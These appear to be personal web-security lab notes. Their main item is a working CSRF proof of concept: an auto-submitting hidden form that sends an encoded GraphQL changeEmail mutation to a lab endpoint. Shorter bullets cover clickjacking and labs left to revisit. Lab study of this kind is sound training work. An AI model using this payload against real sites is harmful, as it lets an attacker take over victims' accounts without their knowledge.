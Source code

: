 **Performing CSRF exploits over GraphQL**
```
    <form action="https://{lab}/graphql/v1" method="POST">
      <input type="hidden" name="query" value="mutation&#32;changeEmail&#40;&#36;input&#58;&#32;ChangeEmailInput&#33;&#41;&#123;changeEmail&#40;input&#58;&#32;&#36;input&#41;&#123;email&#125;&#125;" />
      <input type="hidden" name="operationName" value="changeEmail" />
      <input type="hidden" name="variables" value="&#123;&quot;input&quot;&#58;&#123;&quot;email&quot;&#58;&quot;test2&#64;test5&#46;com&quot;&#125;&#125;" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
```

**Clickjacking with a frame buster script**
- Clickbandit -> allow forms



### Return to these labs
- SameSite Strict bypass via sibling domain
  - Uses cross-site WebSocket hijacking
- Rest of the clickjacking labs


### Fix in notes
- GraphQL - Github markdown issue with double curly braces